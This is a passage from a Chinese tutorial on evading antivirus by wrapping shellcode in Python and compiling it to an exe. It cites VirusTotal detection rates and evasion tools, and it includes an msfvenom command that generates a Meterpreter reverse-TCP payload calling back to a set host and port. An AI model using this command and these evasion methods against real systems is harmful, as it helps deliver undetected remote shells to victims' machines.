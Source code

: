 **4、其他杀软的检测指标是在`virustotal.com`（简称VT）上在线查杀，所以可能只是代表了静态查杀能力，数据仅供参考，不足以作为免杀或杀软查杀能力的判断指标。**

**5、完全不必要苛求一种免杀技术能bypass所有杀软，这样的技术肯定是有的，只是没被公开，一旦公开第二天就能被杀了，其实我们只要能bypass目标主机上的杀软就足够了。**

 ---


# 1 Python加载shellcode免杀介绍

由于python使用比较简单方便，所以现在很多免杀都是使用python来对shellcode进行处理，做一些加密、混淆，用python来实现各种加密也比较简单而且免杀效果相对不错，唯一不足的地方就是py编译生成的exe文件比较大。

免杀工具avet、Python-Rootkit、Avoidz、Winpayloads、BackDoor-Factory都使用了把shellcode嵌入python代码中，然后编译py文件为exe，从而达到免杀的效果。


# 2 通过py源码编译exe

## 2.1 方法1：python加载C代码(VT免杀率19/70)

这种方法是python免杀最常见的一种方式，将C语言的shellcode嵌入到py代码中，然后借助于pyinstaller或py2exe编译打包成exe，不过因为代码和原理比较简单，所以免杀效果一般。

先用msfvenom生成shellcode:
```
msfvenom -p windows/meterpreter/reverse_tcp   LHOST=10.211.55.2 LPORT=3333   -f c
```